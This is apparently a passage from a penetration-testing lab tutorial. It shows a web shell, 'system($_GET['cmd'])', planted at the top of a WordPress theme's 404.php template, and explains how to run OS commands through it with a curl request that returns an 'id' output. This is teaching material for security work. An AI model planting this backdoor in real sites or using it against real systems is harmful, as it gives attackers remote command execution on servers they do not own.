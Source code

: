 # Injection of cmd 
```php
<?php
system($_GET['cmd']);
/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
 *
 * @package WordPress
 * @subpackage Twenty_Seventeen
 * @since 1.0
 * @version 1.0
 */

get_header(); ?>

<div class="wrap">
	<div id="primary" class="content-area">
		<main id="main" class="site-main" role="main">

			<section class="error-404 not-found">
				<header class="page-header">
					<h1 class="page-title"><?php _e( 'Oops! That page can&rsquo;t be found.', 'twentyseventeen' ); ?></h1>
				</header><!-- .page-header -->
				<div class="page-content">
					<p><?php _e( 'It looks like nothing was found at this location. Maybe try a search?', 'twentyseventeen' ); ?></p>

					<?php get_search_form(); ?>

				</div><!-- .page-content -->
			</section><!-- .error-404 -->
		</main><!-- #main -->
	</div><!-- #primary -->
</div><!-- .wrap -->

<?php
get_footer();
```
## Why This Works
The above code should allow us to execute commands via the GET parameter cmd. In this example, we modified the source code of the 404.php page and added a new function called system(). This function will allow us to directly execute operating system commands by sending a GET request and appending the cmd parameter to the end of the URL after a question mark ? and specifying an operating system command. The modified URL should look like this 404.php?cmd=id.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the cURL request below.

```bash
Code4Christ@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```